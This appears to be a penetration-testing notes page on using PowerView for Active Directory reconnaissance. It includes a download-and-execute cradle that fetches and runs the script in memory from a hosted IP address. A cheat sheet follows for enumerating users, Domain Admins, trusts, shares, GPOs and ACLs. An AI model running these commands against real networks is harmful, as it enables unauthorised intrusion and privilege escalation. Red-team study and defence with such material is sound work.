 ### [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```powershell
# host the script & load in memory
# from powershell:
iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')
pwoe
# from cmd:
powershell -command iex (New-Object Net.WebClient).DownloadString('http://192.168.56.1/PowerView.ps1')
```

#### <mark style="color:green;">PowerView Cheat Sheet</mark>

```powershell
# Get all users in the current domain
Get-DomainUser | select -ExpandProperty cn

# Get all computers in the current domain
Get-DomainComputer

# Get all domains in current forest
Get-ForestDomain

# Get domain/forest trusts
Get-DomainTrust
Get-ForestTrust

# Get information for the DA group
Get-DomainGroup "Domain Admins"

# Find members of the DA group
Get-DomainGroupMember "Domain Admins" | select -ExpandProperty membername

# Find interesting shares in the domain, ignore default shares, and check access
Find-DomainShare -ExcludeStandard -ExcludePrint -ExcludeIPC -CheckShareAccess

# Get OUs for current domain
Get-DomainOU -FullData

# Get computers in an OU
# %{} is a looping statement
Get-DomainOU -name Servers | %{ Get-DomainComputer -SearchBase $_.distinguishedname } | select dnshostname

# Get GPOs applied to a specific OU
Get-DomainOU *WS* | select gplink
Get-DomainGPO -Name "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"

# Get Restricted Groups set via GPOs, look for interesting group memberships forced via domain
Get-DomainGPOLocalGroup -ResolveMembersToSIDs | select GPODisplayName, GroupName, GroupMemberOf, GroupMembers

# Get the computers where users are part of a local group through a GPO restricted group
Get-DomainGPOUserLocalGroupMapping -LocalGroup Administrators | select ObjectName, GPODisplayName, ContainerName, ComputerName

# Find principals that can create new GPOs in the domain
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=targetdomain,DC=com" -ResolveGUIDs | ?{ $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier

```